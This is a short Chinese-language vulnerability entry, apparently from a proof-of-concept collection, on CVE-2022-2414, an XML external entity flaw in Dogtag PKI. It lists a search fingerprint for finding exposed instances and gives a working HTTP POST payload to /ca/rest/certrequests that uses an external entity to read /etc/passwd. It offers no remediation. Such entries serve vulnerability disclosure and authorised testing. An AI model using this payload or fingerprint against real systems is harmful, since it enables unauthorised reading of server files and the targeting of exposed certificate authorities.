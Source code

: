 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

<a-checkbox checked>Dogtag PKI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Identity Management" </a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1666109777446-b643ca9b-dea3-4ac4-8bf0-8f34f1eec640.png)

验证POC

```java
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![img](../../../.vuepress/public/img/1666110160561-329b89b1-2d6a-47a7-b026-45b0b7ef6670.png)